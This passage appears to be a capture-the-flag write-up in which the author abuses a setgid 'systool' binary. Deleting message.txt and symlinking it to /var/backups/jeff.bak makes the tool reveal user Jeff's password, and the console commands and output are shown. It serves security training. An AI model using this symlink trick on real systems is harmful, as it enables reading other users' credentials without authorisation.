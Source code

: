 Looking at the files `systool` we can execute it. Before that let's see what is inside the `message.txt`

```console
backupmgr@tryharder:/opt/systools$ cat message.txt 
Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.
backupmgr@tryharder:/opt/systools$
```

Let's run `systool`

```console
backupmgr@tryharder:/opt/systools$ ./systool 
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2

Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.

1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 3
backupmgr@tryharder:/opt/systools$
```

Okay what we can see is option 2 reads the file from `message.txt`

So how can we exploit it to give us password of jeff?

We can delete the message.txt and link the `/opt/backups/jeff.bak` to `message.txt` and when the tool runs it tries to read the file from `jeff.bak`and displays whats inside .

Let's try out

```console
backupmgr@tryharder:/opt/systools$ rm message.txt 
backupmgr@tryharder:/opt/systools$ ln -s /var/backups/jeff.bak message.txt
backupmgr@tryharder:/opt/systools$ ls -la
total 28
drwxrwxrwx 2 jeff      jeff       4096 Sep 26 11:34 .
drwxr-xr-x 4 root      root       4096 May 24 13:13 ..
lrwxrwxrwx 1 backupmgr backupmgr    21 Sep 26 11:34 message.txt -> /var/backups/jeff.bak
-rwxr-sr-x 1 jeff      pwman     17160 May 24 13:18 systool
backupmgr@tryharder:/opt/systools$
```

```console
backupmgr@tryharder:/opt/systools$ ./systool 
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2

Your Password is: [REDACTED]
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option:
```
